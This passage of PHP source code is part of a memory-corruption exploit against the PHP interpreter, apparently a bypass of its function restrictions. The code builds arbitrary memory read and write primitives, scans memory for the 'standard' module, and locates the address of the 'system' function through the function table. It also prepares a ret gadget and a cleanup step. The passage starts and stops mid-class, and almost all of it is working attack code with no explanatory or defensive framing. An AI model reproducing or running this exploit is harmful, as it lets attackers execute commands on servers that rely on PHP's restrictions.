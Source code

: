 ```php
        $this->write($val_off, $this->helper_addr + CHUNK_SIZE + 8);
        $this->write($val_off + 8, 0xA);
    }

    private function prepare_cleanup($binary_leak) {
        $ret_gadget = $binary_leak;
        do {
            --$ret_gadget;
        } while($this->read($ret_gadget, 1) !== 0xC3);
        $this->log("ret gadget = 0x%x", $ret_gadget);
        $this->write(0, $this->abc_addr + 0x20 - (PHP_MAJOR_VERSION === 8 ? 0x50 : 0x60));
        $this->write(8, $ret_gadget);
    }

    private function read($addr, $n = 8) {
        $this->write($this->helper_off + CHUNK_SIZE + 16, $addr - 0x10);
        $value = strlen($this->helper->c);
        if($n !== 8) { $value &= (1 << ($n << 3)) - 1; }
        return $value;
    }

    private function write($p, $v, $n = 8) {
        for($i = 0; $i < $n; $i++) {
            $this->abc[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    private function get_basic_funcs($addr) {
        while(true) {
            // In rare instances the standard module might lie after the addr we're starting
            // the search from. This will result in a SIGSGV when the search reaches an unmapped page.
            // In that case, changing the direction of the search should fix the crash.
            // $addr += 0x10;
            $addr -= 0x10;
            if($this->read($addr, 4) === 0xA8 &&
                in_array($this->read($addr + 4, 4),
                    [20151012, 20160303, 20170718, 20180731, 20190902, 20200930])) {
                $module_name_addr = $this->read($addr + 0x20);
                $module_name = $this->read($module_name_addr);
                if($module_name === 0x647261646e617473) {
                    $this->log("standard module @ 0x%x", $addr);
                    return $this->read($addr + 0x28);
                }
            }
        }
    }

    private function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = $this->read($addr);
            $f_name = $this->read($f_entry, 6);
            if($f_name === 0x6d6574737973) {
                return $this->read($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry !== 0);
    }

    private function cleanup() {
        $this->hfp = fopen('php://memory', 'w');
```